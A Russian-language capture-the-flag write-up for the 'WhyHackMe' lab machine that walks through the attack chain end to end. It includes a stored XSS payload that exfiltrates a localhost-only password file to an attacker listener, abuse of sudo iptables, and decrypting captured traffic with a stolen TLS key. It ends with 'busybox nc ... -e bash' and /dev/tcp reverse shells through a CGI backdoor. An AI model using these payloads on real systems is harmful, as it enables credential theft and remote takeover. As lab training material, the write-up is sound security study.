# Write-up: WhyHackMe

## Recon

```bash
nmap -sS -sV -sC -p- --min-rate=1000 <TARGET-IP>
```

```text
PORT      STATE    SERVICE VERSION
21/tcp    open     ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0             318 Mar 14  2023 update.txt
22/tcp    open     ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.9
80/tcp    open     http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Welcome!!
41312/tcp filtered unknown
```

Сразу два интересных момента: анонимный FTP и отфильтрованный порт `41312`.

## FTP

Заходим анонимно:



Получаем `update.txt`:

```text
Hey I just removed the old user mike because that account was compromised and for any of
you who wants the creds of new account visit 127.0.0.1/dir/pass.txt and don't worry this
file is only accessible by localhost(127.0.0.1), so nobody else can view it except me or
people with access to the common account.
- admin
```

Важная подсказка: пароль нового аккаунта лежит в `127.0.0.1/dir/pass.txt` и доступен только с localhost. Значит, нам понадобится SSRF или XSS с исполнением на сервере.

## Веб

Смотрим сайт:

```text
http://10.145.139.27/blog.php
```


```text
http://10.145.139.27/login.php
```



```text
http://10.145.139.27/register.php
```



## XSS

При регистрации можно оставить комментарий:



Смотрим, как комментарий хранится в HTML:



Пробуем XSS в самом комментарии — не срабатывает:



Тогда пробуем через никнейм. Создаём пользователя с ником `<script>alert(1);</script>`:



Пишем комментарий, и XSS срабатывает:



Теперь нужен ник, который запросит `127.0.0.1/dir/pass.txt`. Собрал JS-payload, который делает запрос к локальному эндпоинту и отправляет результат на наш listener:

```html
<script>
fetch("http://127.0.0.1/dir/pass.txt")
  .then(r => r.text())
  .then(t => fetch("http://192.168.192.3:4444?q=" + t, {mode: "no-cors"}));
</script>
```



Получаем креды:

```text
jack:WhyIsMyPasswordSoStrongIDK
```

`user.txt`:



## Post-Exploitation

В `/opt` лежат:

```text
capture.pcap  urgent.txt
```

`urgent.txt`:

```text
Hey guys, after the hack some files have been placed in /usr/lib/cgi-bin/ and when I try
to remove them, they wont, even though I am root. Please go through the pcap file in /opt
and help me fix the server. And I temporarily blocked the attackers access to the backdoor
by using iptables rules. The cleanup of the server is still incomplete I need to start by
deleting these files first.
```

То есть:

- в `/usr/lib/cgi-bin/` лежит бэкдор;
- доступ к нему закрыт правилами iptables;
- в `capture.pcap` лежит трафик атаки.

Смотрим `sudo -l`:

```bash
sudo -l
```

```text
User jack may run the following commands on ubuntu:
    (ALL : ALL) /usr/sbin/iptables
```

Проверяем правила:

```bash
sudo iptables -L --line-numbers
```

```text
Chain INPUT (policy ACCEPT)
num  target   prot opt source               destination
1    DROP     tcp  --  anywhere             anywhere             tcp dpt:41312
2    ACCEPT   all  --  anywhere             anywhere
3    ACCEPT   all  --  anywhere             anywhere             ctstate NEW,RELATED,ESTABLISHED
4    ACCEPT   tcp  --  anywhere             anywhere             tcp dpt:ssh
5    ACCEPT   tcp  --  anywhere             anywhere             tcp dpt:http
6    ACCEPT   icmp --  anywhere             anywhere             icmp echo-request
7    ACCEPT   icmp --  anywhere             anywhere             icmp echo-reply
8    DROP     all  --  anywhere             anywhere
```

Порт `41312` специально закрыт. Открываем его, заменив правило №1:

```bash
sudo /usr/sbin/iptables -R INPUT 1 -p tcp --dport 41312 -j ACCEPT
```

## Анализ pcap

Скачиваем `capture.pcap` с машины:

```bash
python3 -m http.server 8000
```

На своём ПК:

```bash
wget http://10.145.167.190:8000/capture.pcap
```

Открываем в Wireshark — трафик зашифрован. Нужен приватный ключ. Он лежит в `/etc/apache2/certs/apache.key`:



Импортируем ключ в Wireshark: `Edit → Preferences → Protocols → TLS → RSA Keys`.

Фильтруем по `http` и видим цепочку атаки:



Находим запрос к бэкдору:

```http
GET /cgi-bin/5UP3r53Cr37.py?key=48pfPHUrj4pmHzrC&iv=VZukhsCo8TlTXORN&cmd=ls%20-al HTTP/1.1
```

Проверяем бэкдор через браузер:

```text
https://10.145.167.190:41312//cgi-bin/5UP3r53Cr37.py?key=48pfPHUrj4pmHzrC&iv=VZukhsCo8TlTXORN&cmd=id
```



## Root

Используем `busybox nc` для reverse shell:

```text
https://10.145.167.190:41312/cgi-bin/5UP3r53Cr37.py?key=48pfPHUrj4pmHzrC&iv=VZukhsCo8TlTXORN&cmd=busybox%20nc%20192.168.192.3%204444%20-e%20bash
```

> Вариант с `bash -c 'bash -i >& /dev/tcp/<IP>/4444 0>&1'` у меня не сработал — вероятно, из-за ограничений окружения CGI, в котором нет нормального TTY/`/dev/tcp`. `busybox nc -e bash` отработал стабильно.

Получаем root:



## Итоговая схема (Kill Chain)

`Anonymous FTP (info leak)` → `Stored XSS (SSRF to localhost)` → `Creds → SSH` → `iptables SUID → открытие бэкдора` → `PCAP + apache.key → URL бэкдора` → `RCE (busybox nc) → root`
